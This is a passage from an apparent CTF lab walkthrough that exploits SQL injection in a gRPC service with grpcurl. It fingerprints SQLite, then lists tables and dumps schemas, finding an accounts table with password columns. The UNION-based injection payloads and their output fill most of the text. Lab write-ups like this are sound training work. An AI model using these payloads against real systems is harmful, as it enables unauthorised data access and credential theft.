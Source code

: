 This might not be MySQL. It could be SQLite. I’ll try `sqlite_version()`, and it works:

```
oxdf@hacky$ grpcurl -d 'id: "320 union select sqlite_version()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "3.31.1"

```

#### Get Table Names

PayloadsAllTheThings has a [SQLite Injection page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#string-based---extract-database-structure). I’ll use the query here to get the table names:

```
oxdf@hacky$ grpcurl -d 'id: "320 union select tbl_name from sqlite_master where type=\"table\" and tbl_name NOT LIKE \"sqlite_%\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "accounts"

```

The trick is making sure to nest `"` and `'` properly. It seems this application is only sending back the first one, so I’ll add `group_concat()` to get all of them:

```
oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(tbl_name) from sqlite_master where type=\"table\" and tbl_name NOT LIKE \"sqlite_%\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "accounts,messages"

```

#### Table Structures

The query from PayloadsAllTheThings to get the column names works:

```
oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(sql) from sqlite_master where type!=\"meta\" and sql NOT NULL and name =\"messages\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "CREATE TABLE messages(id INT UNIQUE, username TEXT UNIQUE,message TEXT)"

```

It’s returning the string that shows how the table was created. I can get both in one query:

```
oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(sql) from sqlite_master where type!=\"meta\" and sql NOT NULL"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n),CREATE TABLE messages(id INT UNIQUE, username TEXT UNIQUE,message TEXT)"

```

`accounts` has `username` and `password`, `messages` has `id`, `username`, and `message`.
